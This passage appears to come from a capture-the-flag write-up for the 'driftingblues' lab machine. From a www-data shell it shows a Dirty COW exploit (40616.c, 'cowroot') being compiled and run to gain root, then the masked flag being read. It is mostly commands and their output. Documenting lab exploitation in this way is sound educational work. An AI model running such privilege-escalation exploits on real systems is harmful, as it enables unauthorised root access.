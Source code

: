 Lets compile the source to a binary.
```bash
www-data@driftingblues:/tmp$ ls
ls
40616.c
linpeas.sh
vmware-root

www-data@driftingblues:/tmp$ gcc 40616.c -o cowroot -pthread  
gcc 40616.c -o cowroot -pthread
40616.c: In function 'procselfmemThread':
40616.c:99:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
In file included from 40616.c:28:0:
/usr/include/unistd.h:331:16: note: expected '__off_t' but argument is of type 'void *'
```

Execute the compiled binary to get `root` access.
```bash
www-data@driftingblues:/tmp$ ls
ls
40616.c
cowroot
linpeas.sh
vmware-root

www-data@driftingblues:/tmp$ ./cowroot   
./cowroot
whoami
root
```

> We got `root`!
{: .prompt-info }

## get the flag
```bash
cd /root
ls
proof.txt
cat proof.txt
1******************************9
```

Pwned! <@:-)
